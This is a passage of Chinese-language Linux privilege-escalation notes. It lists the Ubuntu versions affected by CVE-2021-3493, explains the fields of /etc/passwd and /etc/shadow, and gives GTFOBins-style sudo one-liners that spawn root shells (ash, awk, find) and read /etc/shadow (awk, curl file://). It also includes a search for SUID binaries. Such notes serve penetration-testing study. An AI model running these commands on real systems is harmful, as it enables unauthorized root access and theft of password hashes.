 ### CVE-2021-3493

> 漏洞影响范围
>
> Ubuntu 20.10
>
> Ubuntu 20.04 LTS
>
> Ubuntu 18.04 LTS
>
> Ubuntu 16.04 LTS
>
> Ubuntu 14.04 ESM
>
> https://github.com/briskets/CVE-2021-3493

### Linux密码Hash

- /etc/passwd

  所有用户都可以查看，存储着所有用户的信息，每一行代表一个用户，每一行通过冒号:分为七个部分

  > 1. 用户名
  > 2. 密码，x表示密码保存在/etc/shadow
  > 3. UID，0代表root
  > 4. GID，表示所在组
  > 5. 描述信息，依次为Full Name、Room Number、Work Phone、Home Phone和Other
  > 6. 用户主目录
  > 7. 默认shell类型

- /etc/shadow

  只有root用户能够查看，保存加密后的密码和用户相关密码信息，每个用户一行，每一行通过冒号`:`分为九个部分：

  > 1. 用户名
  > 2. 加密后的密码
  > 3. 上次修改密码的时间(从1970.1.1开始的总天数)
  > 4. 两次修改密码间隔的最少天数，如果为0，则没有限制
  > 5. 两次修改密码间隔最多的天数,表示该用户的密码会在多少天后过期，如果为99999则没有限制提
  > 6. 前多少天警告用户密码将过期
  > 7. 在密码过期之后多少天禁用此用户
  > 8. 用户过期日期(从1970.1.1开始的总天数)，如果为0，则该用户永久可用
  > 9. 保留

### 滥用的SUDO权限

sudo提权

https://gtfobins.github.io/

```
sudo /bin/ash
sudo /usr/bin/awk -F: ‘{print $1 $2}' /etc/shadow
sudo /usr/bin/awk 'BEGIN {system("/bin/bash")}'
sudo curl file:///etc/shadow
sudo find . -exec /bin/sh \; -quit
```

find命令查找拥有suid权限的文件

```bash
find / -perm -u=s -type f 2>/dev/null
```

> https://gtfobins.github.io/